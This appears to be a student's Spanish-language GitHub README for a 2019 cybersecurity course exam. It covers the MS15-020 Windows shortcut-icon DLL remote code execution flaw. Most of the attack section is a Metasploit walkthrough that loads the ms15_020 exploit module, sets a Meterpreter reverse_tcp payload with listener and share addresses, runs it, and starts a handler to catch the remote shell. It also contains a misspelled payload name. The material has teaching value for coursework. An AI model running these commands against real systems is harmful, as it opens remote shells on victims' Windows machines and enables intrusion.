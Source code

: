 # ciberseguridad-2019-1
Repositorio para Ciberseguridad 2019-I
Parcial Ciberseguridad 2019-1 

Juan Esteban Monsalve Echeverry

Vulnerabilidad 

MS15-020: Una vulnerabilidad en Windows podría permitir la ejecución remota de código 

Las vulnerabilidades podrían permitir la ejecución remota de código si un atacante correctamente convence a un usuario visita un sitio web especialmente diseñado, abra un archivo especialmente diseñado o abrir un archivo en un directorio de trabajo que contiene un archivo DLL especialmente diseñado. 
Publicado: marzo 10, 2015

Sistema Operativo 
Windows XP, Windows 7 

Software 
Sistema opertativo: Kali Linux 
Herramienta: 
Metaexploit 

-----------------------------------------------------------------------------------------------------------
Instructivo 
-----------

msf > use exploit/windows/fileformat/ms15_020_shortcut_icon_dllloader 

msf exploit(ms15_020_shortcut_icon_dllloader) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp 

msf exploit(ms15_020_shortcut_icon_dllloader) > set lhost 10.191.5.5

lhost=> 10.191.5.5

msf exploit(ms15_020_shortcut_icon_dllloader) > set UNCHOST 10.191.5.6

UNCHOST => 10.191.5.6

msf exploit(ms15_020_shortcut_icon_dllloader) > set UNCSHARE share

UNCSHARE => share 

msf exploit(ms15_020_shortcut_icon_dllloader) > exploit

----------------------------------------------------------------------------------------------------------
use exploit/multi/handler 

set payload windows/meterpreter/reverser_tcp 

set lhost 10.191.5.5

----------------------------------------------------------------------------------------------------------
Video Demo

<iframe width="560" height="315" src="https://youtu.be/oq0XCedmUwI" frameborder="0" allowfullscreen></iframe>

https://youtu.be/oq0XCedmUwI

----------------------------------------------------------------------------------------------------------

Referencias

http://da1sy.cn/2018/05/MS15-020/
https://github.com/rapid7/metasploit-framework/pull/4911
https://www.rapid7.com/db/vulnerabilities/WINDOWS-HOTFIX-MS15-020
https://www.rapid7.com/db/modules/exploit/windows/fileformat/ms15_020_shortcut_icon_dllloader 
